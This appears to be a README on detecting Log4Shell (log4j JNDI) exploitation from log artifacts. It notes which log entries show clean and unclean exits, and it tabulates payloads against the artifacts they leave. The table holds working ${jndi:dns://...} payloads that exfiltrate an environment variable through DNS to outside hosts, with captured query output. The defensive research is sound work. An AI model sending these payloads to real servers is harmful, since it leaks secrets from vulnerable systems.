 # log4j
## Log based detection

The observed behavior is that logs contain different artifact types, based on whether the jNDI threads being called exit cleanly (faultless) or not. What is clean or not is finicky. 

Exploit flows which exit cleanly will show up in the logs with which I [assume](https://www.nomachetejuggling.com/2008/06/04/getting-a-java-objects-reference-id/) is an `objectName@ identityHashCode`, for example `com.sun.jndi.dns.DnsContext@2a406a7f`.

However, if for some reason the process/thread doesn't exit cleanly, the log will contain the string for which a monstrous regex is [available](https://github.com/back2root/log4shell-rex). An example would be `${jndi:dns://127.0.0.11/thisdomainwillnotexistandnotexitcleanly${env:POC_USERNAME}.net}`

> :warning: A non-clean exit does **NOT** mean the exploit was unsuccessful. So if you find the `${jndi...}` in your logs, still consider the system compromised.

I'll try to work through all the exploit types I can find, see which object names could point to successful compromise, and which `${jndi:...}` payloads actually do cause harm.

## DNS

| Context                                                      | Payload                                                      | Log artifact                                                 | Output                                                       |
| ------------------------------------------------------------ | ------------------------------------------------------------ | ------------------------------------------------------------ | ------------------------------------------------------------ |
| Working (for me) payload                                     | `${jndi:dns://8.8.8.8/${env:POC_USERNAME}.avuko.nl}`         | `com.sun.jndi.dns.DnsContext@<hashcode>`                     | `8.8.8.8 DNS 75	Standard query 0x08f2 TXT user.avuko.nl`  |
| Working (the exfil is successful) but full payload in the logs, because of a DNS error  code `0011 = Reply code: No such name (3)` | `${jndi:dns://8.8.8.8/doesnotexist.${env:POC_USERNAME}.net}` | `${jndi:dns://8.8.8.8/doesnotexist.${env:POC_USERNAME}.net}` | `8.8.8.8 DNS 82	Standard query 0xf62f TXT doesnotexist.user.net` |
|                                                              |                                                              |                                                              |                                                              |

 
